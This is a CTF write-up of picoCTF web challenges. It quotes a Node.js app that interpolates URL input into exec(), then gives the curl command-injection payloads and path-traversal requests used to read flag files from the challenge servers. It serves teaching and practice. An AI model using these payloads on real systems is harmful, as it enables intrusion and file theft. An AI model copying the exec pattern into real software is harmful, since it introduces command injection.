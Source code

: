 # General / Misc writeup

I will put those questions which I think not "deep-in-the-rabbit-hole" here.

## Scavenger Hunt

`robots.txt` (prevent indexing), `.htaccess` (Apache server config - should not be accessed from client-side) and `.DS_Store` files.

Kind of know it or search it question.

## CaaS

Command line injection - seriously, real applications having this problem is doomed.

Source code of the app:

```js
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});

```

The problem is in the line: ``exec(`/usr/games/cowsay ${req.params.message}`, ...``

It will just run any shell command after adding `;`

Example: (format like bash script)

```bash
$ /usr/games/cowsay gachiBASS  # probably harmless but...

$ /usr/games/cowsay gachiBASS;ls  # We can run everything as that user (whoami)
# By the way the program crashs if you start with ; immediately, so just add something for the cow to output
```

To get the flag:

```bash
$ curl 'https://caas.mars.picoctf.net/cowsay/gachiBASS;ls'
 ___________
< gachiBASS >
 -----------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock

$ curl 'https://caas.mars.picoctf.net/cowsay/gachiBASS;cat%20falg.txt'  # need to URL encode the space, Firefox's inspector helps a lot
 ___________
< gachiBASS >
 -----------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{cow_flag}
```

## Forbidden Paths

So the webpage shares the files in `/usr/share/nginx/html/` and we input the file name so that it will show its content (just like print output from `cat filename`)

If you enter an absolute path (starting with /, like `/flag.txt`), access will be denied.

However, relative paths are not blocked ... so `/flag.txt` is the same as `../../../../flag.txt` if you are at `/usr/share/nginx/html/`.

So we can get the flag by giving that relative path.

```bash
$ curl 'http://saturn.picoctf.net:55827/read.php' -X POST --data-raw 'filename=..%2F..%2F..%2F..%2Fflag.txt&read=' | grep -E -o picoCTF{.*?}

picoCTF{the_forbidden_flag}
```

## Download / Mirror the whole website (Search source)

Reference: <https://alvinalexander.com/linux-unix/how-to-make-offline-mirror-copy-website-with-wget/>

The hint is: `How could you mirror the website on your local machine so you could use more powerful tools for searching?`

Didn't know `wget` can do so much...

```bash
# convert-links and html-extension options are not really needed for this question
$ wget --mirror            \
     --convert-links     \
     --html-extension    \
     --wait=2            \
     -o dl_log              \
     http://saturn.picoctf.net:61941/

# It takes some time to download the website

$ cd saturn.picoctf.net:61941/  # cd is not really needed
$ grep "picoCTF{" --recursive
css/style.css:/** banner_main picoCTF{that_flag} **/
```

This is useful in all the hide-and-seek plaintext search flag questions.

## PostgreSQL SQL Server

Enter the server following its instructions

```bash
# pico is the db name, username is postgres
psql -h saturn.picoctf.net -p 62606 -U postgres pico

pico=# \dt
         List of relations
 Schema | Name  | Type  |  Owner
--------+-------+-------+----------
 public | flags | table | postgres
(1 row)

# Now enter the normal SQL statements
pico=# SELECT * FROM flags;
 id | firstname | lastname  |                address
----+-----------+-----------+----------------------------------------
  1 | Luke      | Skywalker | picoCTF{that_postgre_SQL_flag}
  2 | Leia      | Organa    | Alderaan
  3 | Han       | Solo      | Corellia
(3 rows)

```
